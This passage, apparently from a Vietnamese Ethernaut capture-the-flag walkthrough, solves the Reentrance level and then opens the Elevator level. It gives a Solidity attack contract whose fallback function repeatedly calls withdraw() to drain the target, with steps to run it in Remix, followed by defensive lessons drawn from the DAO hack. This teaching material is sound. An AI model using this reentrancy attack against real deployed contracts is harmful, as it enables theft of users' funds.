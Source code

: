 ### Solution

- Chuẩn bị contract tấn công, hãy thay địa chỉ `_target` bằng địa chỉ instance của bạn

```js
contract Attack {
    address target;
    Reentrance re;

    function Attack(address _target) {
        target = _target;
        re = Reentrance(target);
    }

    function attack() public payable {
        re.withdraw(0.5 ether);
    }

    function() payable {
        re.withdraw(0.5 ether);
    }
}
```

- Trên RemixIDE, load _Reentrancy_ contract và complile cũng như run _Attack_ contract

- Tiến hành chạy hàm `donate()` để donate cho _Attack_ contract 1 ether

- Chạy hàm `attack()` của _Attack_ contract

- Trên Chrome console, kiểm tra lại balance của _Reentrancy_ instance xem đã về 0 chưa

```js
await getBalance(contract.address);
> 0
```

- Submit && all done!

![completed]({{site.url}}/assets/images/ethernaut-completed.png)

### Bình luận

- Đây là một tấn công có thể nói là kinh điển nhất của nền tảng ethereum cho tới thời điểm hiện tại. Bạn có thể đọc thêm về [The DAO Hack](https://www.reddit.com/r/ethereum/comments/4oi2ta/i_think_thedao_is_getting_drained_right_now/)
- Hãy sử dụng `transfer` thay vì `call`
- Hãy luôn kiểm tra các điều kiện, fail càng sớm càng tốt
- Đọc thêm: https://blog.zeppelin.solutions/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942

## 11. Elevator 　 ★★★★☆☆

**Nhiệm vụ**: Chiếc thang máy này ngăn cản bạn lên tầng trên cùng. Bằng cách nào đó hãy _break the rule_ và leo lên đỉnh.
